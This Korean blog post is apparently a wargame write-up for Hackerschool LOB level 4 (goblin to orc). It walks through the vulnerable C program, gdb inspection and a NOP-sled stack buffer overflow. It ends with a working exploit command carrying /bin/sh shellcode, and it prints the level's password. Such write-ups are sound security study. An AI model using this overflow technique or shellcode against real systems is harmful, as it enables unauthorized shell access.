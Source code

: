 ```yaml
---
date: '2022-10-14'
before : '2022-10-13'
after : '2022-10-15'
title: '시스템 해킹(20) : FTZ LOB LEVEL 4'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에 

드디어 새로운 형식의 BOF문제다! 재미있게 한 번 풀어보자.

### 1. Level 4 : Goblin -> Orc

코드를 확인해보니, egghunter라는 녀석이 모든 환경변수를 초기화하고있다.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```
일단 어셈블리도 확인해보고 어떻게 할지 알아보도록 하자.
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048630
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049750
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

### 2. NOP SLED

오늘은 NOP SLED라는 방식을 활용할 것이다. NOP SLED란 컴퓨터 기계단에서 포인터가 다음 실행될 코드의 주소를 가리킬 때, \x90 (NOP)가 있으면 SLED, 썰매를 타듯이 계속 다음 코드를 자동으로 포인팅하여 실행(혹은 디코딩)가능한 내용물이 나오기까지 계속해서 주소를 이동시키는 로직을 이용한 방법이다.


우리가 두 개의 문자열을 매개변수로 남긴다고 가정해보자. (물론 프로그램에서 매개변수를 하나로 제한한다면 다른 방법을 생각해야 할 것이다.) 


gdb를 활용하면 얼마든지 두 매개변수의 주소를 구할 수 있다. (예를 들어 두놈 다 \x90을 실컷 넣어놓고 실행시킨 다음 디버깅을 하면서 00000000이 계속해서 나오는 지점을 확인하면 된다.)


단, 이는 우리가 실제 문제 코드를 실행시킨 게 아닌, 코드를 카피해서 만든 프로그램으로 진행해야하기에 완벽하게 주소를 알아내는 것은 불가능하다. 하지만 똑같은 코드이기에 **대략적인** 주소는 확인 가능하다. 


여기서 NOP SLED가 등장한다. 대충 여기인 것 같다면, 그 곳부터 \x90을 잔뜩 넣은 후 그 후에 쉘코드를 꽂아주자. 그러면 실제 프로그램에서도  **"대충 그 어디쯤에 들어간"** 두 번째 매개변수가 쉘을 실행시켜 줄 것이다. 


하지만 이걸 위해서는 당연히 첫 번째 매개변수에 늘 하던것과 똑같이 bof를 발생시켜 return지점을 바로 저 두 번째 매개변수의 대략적인 시작지점으로 바꿔줘야 한다. 


### 3. 실제 흐름

일단 orc파일을 복사해서 실행파일로 만든 다음 그 파일을 gdb로 디버깅한다.

```
gdb copy
b * main //main 함수 시작하자마자 브레이크 포인트.
r `python -c "print '\x90'*44 + '\xff\xff\xff\xbf'"` ``python -c "print '\x90' * 200"` 
// 실행시킬 때 실제 버퍼오버플로우처럼 44 + 4바이트 리턴주소를 넣어준다.

//실행하면 브레이크 포인트가 걸렸을 것이다. 레지스터의 구조를 확인하기 위해 다음과 같은 명령어를 입랙현다

x/200x $ebp
```
여기서 내가 gdb로 도대체 무슨짓을 한건지 모르겠다면, gdb 디버거에 대해 조금 공부해보자. b는 브레이크포인트고, r은 브레이크 포인트 건 상태에서 코드를 실행하기 위한 명령어일 뿐이다. 


하여튼 마지막 코드를 입력하면 현제 레지스터 주소의 점유현황이 (꽤 길게) 나타난다. 이 중에서 00000000이 쭉 이어지는 부분을 찾으면 그곳이 대략적인 두 번째 매개변수의 주소다.


이렇게 확인한 두 번째 매개변수의 주소는 다음과 같다 :
```
\xc8\xfb\xff\xbf
```

따라서 익스플로잇 : 

```
 ./orc `python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
 ```
 
 비밀번호 : cantata

 ---
## Source

- 해커스쿨 FTZ
- Me!
